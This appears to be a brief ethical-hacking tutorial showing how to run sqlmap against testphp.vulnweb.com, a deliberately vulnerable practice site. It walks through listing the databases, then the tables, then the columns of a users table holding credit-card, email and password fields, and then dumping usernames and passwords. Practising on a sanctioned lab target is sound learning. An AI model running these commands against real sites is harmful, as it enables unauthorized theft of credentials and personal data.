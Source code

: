 # Ethical Hacking - SQL Injection Attack

![](img/Sql.png)
![](img/datatbase.png)

### Senerio

![](img/senerio.png)

### Structure

![](img/structure.png)

### Database Attack Introduction

![](img/databaseAtt.png)

### Website Database Hacking Using sqlmap Tool

![](img/website.png)

- `install sqlmap in kali`
- `vulnweb.com`
- `Acuart`
- `copy link` `http://testphp.vulnweb.com/`
- open new tags.

  - `site:http://testphp.vulnweb.com/ php?id=`

### open kali

- `sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --dbs`

### found 2 dbs

- acuart
- infromation_schema

### find table

- `sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables`

### Found Table

**Database:** acuart
| 8 Tables |
| ------------- |
| artists |
| categ |
| featured |
| guestbook |
| pictures |
| products |
| users |

### Find number of columns

- `sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users --columns`

### Found Column

- Database: acuart
- Table: users
- [8 columns]
  | column | Type |
  | ----- | ---- |
  | name | varchar(100) |
  | address | mediumtext |
  | cart | varchar(100) |
  | cc | varchar(100) |
  | email | varchar(100) |
  | pass | varchar(100) |
  | phone | varchar(100) |
  | uname | varchar(100) |

### Find Username

- `sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump`

- Database: acuart
- Table: users
- [1 entry]
  | uname |
  | ----- |
  | test |

**Find cloumns**

- `sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass --dump`

- Database: acuart
- Table: users
- [1 entry]
  | pass |
  | ----- |
  | test |
